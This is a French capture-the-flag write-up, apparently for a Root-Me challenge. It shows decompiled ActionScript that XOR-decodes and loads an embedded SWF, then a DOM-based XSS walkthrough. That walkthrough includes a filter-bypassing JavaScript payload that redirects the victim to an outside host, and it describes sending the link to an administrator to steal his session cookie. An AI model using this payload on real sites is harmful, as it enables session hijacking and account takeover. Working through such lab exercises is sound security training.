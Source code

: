 **Note**: Une méthode parallel est possible, le fait de xorer le fichier "RootMe_EmbeddedSWF.bin". Car on peut observer que le script main importe le fichier puis le xor pour enfin l'injecter dans le DOM avec add Child.

```Actionscript
[...]
private const EmbeddedSWF:Class = RootMe_EmbeddedSWF;

public function RootMe()
{
    var _loc2_:Loader = null;
    super();
    var _loc1_:ByteArray = new this.EmbeddedSWF();
    if(_loc1_.length != 0)
    {
    XOR(_loc1_,KEY);
    _loc2_ = new Loader();
    _loc2_.loadBytes(_loc1_);
    addChild(_loc2_);
    }
}
[...]
```

## XSS - DOM Based

Sur la page Game une injection script est possible sur les champs nickname et color. En revanche color se peut contenir que 3 caractères et nickname environ 80 caractères. Le mot "location" et les lettres (, ), ", `, ', ;, + et . sont filtrés.
Ainsi nous allons injecter directement dans l'URL les éléments commençant par espace les accolades afin de pouvoir exploiter le 2e champ:

```shell
"/*
```

Puis injecter une redirection vers un serveur:

```Javascript
// Fermer le commentaire ouverte
*/

// Fermer la propriété ouverte
,

// Remettre les champs utilisés par la condition
callbacks: {
    win:this.youwon,
    lose:{
        // Créer une redirection vers un hook avec windows.location
        d: window[
            // Utilisation de RegExr pour contourner le filtrage des strings
            /loc/.source

            // Utilisation de HTML entities pour contourner le filtrage de l'operateur de concatenation
            %2B
            /ation/.source]=/http:\/\/sandbox-209707.appspot.com/.source
    }
}
//
```

Pour enfin en envoyant l'URL par email à l'administrateur pour ensuite récupérer son cookie pour se connecter au compte administrateur.